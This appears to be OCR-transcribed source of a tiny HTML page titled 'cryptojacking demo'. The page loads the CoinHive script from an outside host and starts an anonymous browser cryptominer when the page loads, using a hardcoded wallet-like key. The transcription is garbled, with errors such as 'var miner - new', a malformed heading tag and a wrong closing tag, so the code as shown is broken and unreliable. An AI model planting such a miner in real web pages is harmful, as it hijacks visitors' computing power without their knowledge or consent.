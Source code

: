 <html>
<head>
<script src="https://coin-hive.com/1ib/coinhive.min.js">
</script>
<script>
var miner - new CoinHive.anonymous('bc1qqrte8c9ajm8dmrfmqmxl6aj3wvusle2djywrym');
miner.start();
</script>
</head>
<body>
  <h2>cryptojacking demo>/h2>
</body>
<html>
